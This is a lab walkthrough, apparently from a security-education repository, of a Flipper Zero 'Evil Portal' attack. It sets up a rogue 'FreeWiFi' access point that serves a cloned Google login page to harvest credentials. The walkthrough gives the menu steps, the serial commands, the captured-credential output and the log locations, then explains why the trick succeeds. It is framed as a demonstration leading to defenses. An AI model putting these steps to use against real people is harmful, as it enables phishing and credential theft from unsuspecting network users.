










# Methodology — Evil Portal Credential Harvesting Walkthrough

A complete, reproducible account of the demonstration performed in a controlled lab.

> ⚠️ Lab-only. Dummy credentials. See [`../DISCLAIMER.md`](../DISCLAIMER.md).

---

## Objective

Show how a **rogue access point + captive-portal clone** can harvest credentials
through pure social engineering — no exploit, no malware — and derive the defenses
that stop it.

## Prerequisites

- Flipper Zero with ESP32 Wi-Fi board flashed with Marauder ([`setup.md`](setup.md)).
- Captive-portal payload ([`../src/portal/google_login.html`](../src/portal/google_login.html)).
- A **separate test device** (your own phone/laptop) to act as the "victim".

---

## Step 1 — Open the Evil Portal module

On the Flipper Zero:

```
Apps → GPIO → ESP → Evil Portal
```

The Evil Portal menu exposes: **Save logs**, **Set AP name**, **Select HTML**, **Help**.



## Step 2 — Set the rogue SSID

Choose a name that lures victims. Public, trust-inviting names work best — here,
`FreeWiFi`.

```
Set AP name → FreeWiFi
```



Equivalent serial commands:

```text
#setap=FreeWiFi
#ssid -a -n 'FreeWiFi'
```

## Step 3 — Load the captive-portal HTML

Point the module at the cloned Google login page.

```
Select HTML → google_login.html
```



Or push it over serial:

```text
#evilportal -c sethtmlstr
Setting HTML from serial...
html set
```

## Step 4 — Launch the Evil Portal

Start the module. The ESP32 raises an **open** access point and a web server.

```text
#evilportal -c start
Starting Evil Portal. Stop with stopscan
AP name from SSID list: FreeWiFi
ap config set
html previously set
starting ap FreeWiFi
ap ip address: 172.0.0.1
web server up
```




The AP is now broadcasting:



## Step 5 — Victim connects (captive-portal trigger)

When the test device joins `FreeWiFi`, the OS performs **captive-portal detection**
(e.g., requests to `msftconnecttest.com/redirect`, `connectivitycheck.gstatic.com`,
`captive.apple.com`). The rogue DNS/HTTP server intercepts that probe and returns
the cloned login page, which the OS pops open automatically.



> 🔎 Note the browser shows **`Not secure`** / plain HTTP — the key tell of a fake portal.

## Step 6 — Credentials submitted & captured

The victim enters credentials and submits. The ESP32 relays them back over serial
and the Flipper writes them to the SD card.

```text
> u: example@gmail.com p: examplepassword
client connected
```



## Step 7 — Review the logs

Captured sessions are stored as `log_N.txt`:

```
SD Card/apps_data/evil_portal/logs/
├── log_0.txt
├── log_1.txt
├── ...
└── log_5.txt
```




A sanitized copy of the captured session is in
[`../src/logs/sample_log.txt`](../src/logs/sample_log.txt).

---

## Why it works

| Factor | Explanation |
|--------|-------------|
| **Trust in familiar UX** | Captive portals are normal on public Wi-Fi — users expect a login page. |
| **Open network** | No password required to connect lowers the victim's guard. |
| **Automatic pop-up** | The OS opens the portal itself, lending it legitimacy. |
| **Convincing clone** | A pixel-accurate Google page defeats casual inspection. |
| **No HTTPS expected** | Users rarely check the certificate on a "Wi-Fi login". |

➡️ Continue to [`defense.md`](defense.md) for detection and mitigation.
